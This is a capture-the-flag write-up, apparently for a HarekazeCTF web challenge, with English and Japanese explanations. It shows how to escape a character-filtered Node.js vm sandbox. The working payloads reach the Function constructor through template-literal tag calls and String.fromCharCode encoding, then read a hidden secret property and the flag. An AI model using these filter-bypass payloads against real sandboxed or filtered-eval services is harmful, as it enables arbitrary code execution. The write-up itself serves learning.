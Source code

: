 # [Web 150] `[$0-z{}]|[^\\]`

[(URL)](server/)

## Attachments

- [app.js](attachments/app.js)

## Intended Solution (en)
Get non-enumerable property names of `secret` with `Object.getOwnPropertyNames`.

```javascript
// return Object.getOwnPropertyNames(secret)
[][`constructo`[`concat`]`r`][`constructo`[`concat`]`r`][`call`]`${String[`fromCharCode`][`call`]`${114}${101}${116}${117}${114}${110}${32}${79}${98}${106}${101}${99}${116}${46}${103}${101}${116}${79}${119}${110}${80}${114}${111}${112}${101}${114}${116}${121}${78}${97}${109}${101}${115}${40}${115}${101}${99}${114}${101}${116}${41}`}``` // => hint,th1s-1s-th3-s3cr37-pr0p3rty
```

Then, get `secret['th1s-1s-th3-s3cr37-pr0p3rty']`.

```javascript
secret[[][`constructo`[`concat`]`r`][`constructo`[`concat`]`r`][`call`]`${String[`fromCharCode`][`call`]`${114}${101}${116}${117}${114}${110}${32}${79}${98}${106}${101}${99}${116}${46}${103}${101}${116}${79}${119}${110}${80}${114}${111}${112}${101}${114}${116}${121}${78}${97}${109}${101}${115}${40}${115}${101}${99}${114}${101}${116}${41}`}```[1]] // => flag{c411_funct10ns_w1th0ut_p4r3nth3s1s!}
```

## Intended Solution (ja)
`app.js` について調べる。どうやら `[$0-z{}]|[^\\]` の範囲内で JavaScript のコードを実行できるようだが、`vm.runInNewContext` によってコンテキストが操作されている。コンテキストには同じフォルダの `secret.js` から読み込んだ内容が設定されているが、これがどのようなメンバを持っているかは分からない。

`this` のメンバを調べたいが、`Object.keys` は `()` が禁止されているため直接呼ぶことはできない。したがって別の方法で関数呼び出しを行う必要があるが、今回は ES2015 で追加された Template Literal を利用する。そのために、まず Template Literal のタグ式にはどのような引数が渡るか調べてみる。

```javascript
function f(a, b, c) {
  console.log(a, b, c);
}
f`${1}hoge${'fuga'}` // => (3) ["", "hoge", "", raw: Array(3)] 1 "fuga"
```

第 1 引数に文字列の配列、第 2 引数以降に `${}` の中の式が評価された値が格納されている。

このため、`eval` か `setTimeout` をそのままタグ式にすると `eval((文字列の配列))` というように呼び出される。だが、`Function.prototype.call` を介すとタグ式に渡される第 1 引数は `this` の束縛に使われるため、`${}` の中の式を評価した値が `eval` の第 1 引数として使われる。

これを利用して、`Function` をタグ式として `${}` の中でコードを生成することで、フィルターを回避して任意のコードが実行できるようにする。

ただ `Function` は禁止されているため、なんとかして手に入れる必要がある。今回は適当なオブジェクトのコンストラクタ関数を `constructor` プロパティから取得し、さらにそのコンストラクタ関数を取得するという方法をとる。

`constructor` も禁止されているが、これは `String.prototype.concat` を使って回避する。

```javascript
[][`constructo`[`concat`]`r`][`constructo`[`concat`]`r`] // => function Function() { [native code] }
```

コードの生成部分には `String.fromCharCode` を用いる。`.` が禁止されているが、これは `[]` を使うことで回避できる。今後何度も使うので、簡単に任意の文字列を作れる関数を書く。

```javascript
function encode(s) {
  s = s.split('').map(c => c.charCodeAt(0)).join('}${');
  return "`${String[`fromCharCode`][`call`]`${" + s + "}`}`";
}
```

以下のコード (`Object.keys(this)` を実行する) で `this` のメンバを調べてみよう。

```javascript
// return Object.keys(this)
[][`constructo`[`concat`]`r`][`constructo`[`concat`]`r`][`call`]`${String[`fromCharCode`][`call`]`${114}${101}${116}${117}${114}${110}${32}${79}${98}${106}${101}${99}${116}${46}${107}${101}${121}${115}${40}${116}${104}${105}${115}${41}`}``` // => secret
```

`secret` という変数があることが分かった。以下のコード (`Object.keys(secret)` を実行する) で `secret` のメンバを調べてみよう。

```javascript
// return Object.keys(secret)
[][`constructo`[`concat`]`r`][`constructo`[`concat`]`r`][`call`]`${String[`fromCharCode`][`call`]`${114}${101}${116}${117}${114}${110}${32}${79}${98}${106}${101}${99}${116}${46}${107}${101}${121}${115}${40}${115}${101}${99}${114}${101}${116}${41}`}``` // => hint
```

`hint` というプロパティが存在することが分かった。内容を見てみよう。

```javascript
secret[`hint`] // -> `secret` has one more property
```

どうやら `hint` 以外にもプロパティが存在するらしい。`Object.keys` は enumerable なプロパティしか列挙してくれないので、`Object.getOwnPropertyNames` でもう一度 `secret` のメンバを調べてみよう。

```javascript
// return Object.getOwnPropertyNames(secret)
[][`constructo`[`concat`]`r`][`constructo`[`concat`]`r`][`call`]`${String[`fromCharCode`][`call`]`${114}${101}${116}${117}${114}${110}${32}${79}${98}${106}${101}${99}${116}${46}${103}${101}${116}${79}${119}${110}${80}${114}${111}${112}${101}${114}${116}${121}${78}${97}${109}${101}${115}${40}${115}${101}${99}${114}${101}${116}${41}`}``` // => hint,th1s-1s-th3-s3cr37-pr0p3rty
```

`th1s-1s-th3-s3cr37-pr0p3rty` というプロパティが存在することが分かった。内容を見てみよう。

```javascript
// return Object.getOwnPropertyNames(secret)
secret[[][`constructo`[`concat`]`r`][`constructo`[`concat`]`r`][`call`]`${String[`fromCharCode`][`call`]`${114}${101}${116}${117}${114}${110}${32}${79}${98}${106}${101}${99}${116}${46}${103}${101}${116}${79}${119}${110}${80}${114}${111}${112}${101}${114}${116}${121}${78}${97}${109}${101}${115}${40}${115}${101}${99}${114}${101}${116}${41}`}```[1]] // => flag{c411_funct10ns_w1th0ut_p4r3nth3s1s!}
```

フラグが得られた。

## Flag
```
HarekazeCTF{c411_funct10ns_w1th0ut_p4r3nth3s1s!}
```